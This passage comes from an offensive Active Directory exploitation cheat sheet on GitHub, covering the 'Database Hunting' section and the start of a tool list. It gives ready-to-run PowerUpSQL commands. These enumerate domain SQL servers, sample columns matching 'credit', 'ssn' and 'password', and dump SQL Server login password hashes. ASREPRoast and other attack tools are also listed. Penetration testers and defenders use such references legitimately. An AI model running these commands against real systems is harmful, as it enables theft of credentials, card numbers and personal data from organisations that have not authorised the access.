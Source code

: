 Get-SQLInstanceDomain | Get-SQLConnectionTest | Get-SQLColumnSampleDataThreaded -Verbose -Threads 10  -Keyword "credit,ssn,password"  -SampleSize 2  -ValidateCC -NoDefaults

#### [![](data:image/svg+xml,%3csvg xmlns='http://www.w3.org/2000/svg' class='octicon octicon-link js-evernote-checked' viewBox='0 0 16 16' version='1.1' width='16' height='16' aria-hidden='true' data-evernote-id='330'%3e%3cpath fill-rule='evenodd' d='M7.775 3.275a.75.75 0 001.06 1.06l1.25-1.25a2 2 0 112.83 2.83l-2.5 2.5a2 2 0 01-2.83 0 .75.75 0 00-1.06 1.06 3.5 3.5 0 004.95 0l2.5-2.5a3.5 3.5 0 00-4.95-4.95l-1.25 1.25zm-4.69 9.64a2 2 0 010-2.83l2.5-2.5a2 2 0 012.83 0 .75.75 0 001.06-1.06 3.5 3.5 0 00-4.95 0l-2.5 2.5a3.5 3.5 0 004.95 4.95l1.25-1.25a.75.75 0 00-1.06-1.06l-1.25 1.25a2 2 0 01-2.83 0z' data-evernote-id='1302' class='js-evernote-checked'%3e%3c/path%3e%3c/svg%3e)](https://github.com/Integration-IT/Active-Directory-Exploitation-Cheat-Sheet/blob/master/K%20-%20Database%20Hunting/README.md#check-files)Check files

Get-SQLInstanceDomain | Get-SQLConnectionTest | Get-SQLDatabaseThreaded -Verbose -Threads 10  -NoDefaults | Where-Object {$_.is_encrypted  -eq "TRUE"} | Get-SQLColumnSampleDataThreaded -Verbose -Threads 10  -Keyword "card, password"  -SampleSize 2  -ValidateCC -NoDefaults

#### [![](data:image/svg+xml,%3csvg xmlns='http://www.w3.org/2000/svg' class='octicon octicon-link js-evernote-checked' viewBox='0 0 16 16' version='1.1' width='16' height='16' aria-hidden='true' data-evernote-id='331'%3e%3cpath fill-rule='evenodd' d='M7.775 3.275a.75.75 0 001.06 1.06l1.25-1.25a2 2 0 112.83 2.83l-2.5 2.5a2 2 0 01-2.83 0 .75.75 0 00-1.06 1.06 3.5 3.5 0 004.95 0l2.5-2.5a3.5 3.5 0 00-4.95-4.95l-1.25 1.25zm-4.69 9.64a2 2 0 010-2.83l2.5-2.5a2 2 0 012.83 0 .75.75 0 001.06-1.06 3.5 3.5 0 00-4.95 0l-2.5 2.5a3.5 3.5 0 004.95 4.95l1.25-1.25a.75.75 0 00-1.06-1.06l-1.25 1.25a2 2 0 01-2.83 0z' data-evernote-id='1331' class='js-evernote-checked'%3e%3c/path%3e%3c/svg%3e)](https://github.com/Integration-IT/Active-Directory-Exploitation-Cheat-Sheet/blob/master/K%20-%20Database%20Hunting/README.md#extracting-sql-server-login-password-hashes)Extracting SQL Server Login password hashes

Get-SQLServerPasswordHash -Verbose -Instance MSSQLSERVER2016\db-mssql -Migrate

## **Active Directory Exploitation Tools**

#### [ADACLScanner](https://github.com/Integration-IT/Active-Directory-Exploitation-Cheat-Sheet/tree/master/Z%20-%20Tool%20Box/ADACLScanner)

#### [ASREPRoast](https://github.com/Integration-IT/Active-Directory-Exploitation-Cheat-Sheet/tree/master/Z%20-%20Tool%20Box/ASREPRoast)

#### [Adduser-c](https://github.com/Integration-IT/Active-Directory-Exploitation-Cheat-Sheet/tree/master/Z%20-%20Tool%20Box/Adduser-c)
